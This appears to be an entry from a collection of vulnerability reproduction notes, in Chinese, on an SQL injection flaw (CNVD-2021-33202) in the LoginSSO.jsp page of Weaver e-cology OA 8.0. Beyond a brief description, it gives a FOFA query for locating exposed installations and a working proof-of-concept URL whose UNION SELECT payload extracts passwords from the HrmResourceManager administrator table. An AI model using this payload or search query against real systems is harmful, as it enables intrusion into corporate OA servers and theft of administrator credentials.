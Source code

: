 # 泛微OA E-Cology LoginSSO.jsp SQL注入漏洞 CNVD-2021-33202

## 漏洞描述

泛微e-cology是专为大中型企业制作的OA办公系统,支持PC端、移动端和微信端同时办公等。 泛微e-cology存在SQL注入漏洞。攻击者可利用该漏洞获取敏感信息。

## 漏洞影响

```
泛微e-cology 8.0
```

## FOFA

```
app="泛微-协同办公OA"
```

## 漏洞复现

登录页面

![image-20220520133932334](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205201339405.png)

验证POC

```
/upgrade/detail.jsp/login/LoginSSO.jsp?id=1%20UNION%20SELECT%20password%20as%20id%20from%20HrmResourceManager
```

![image-20220520134011931](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205201340985.png)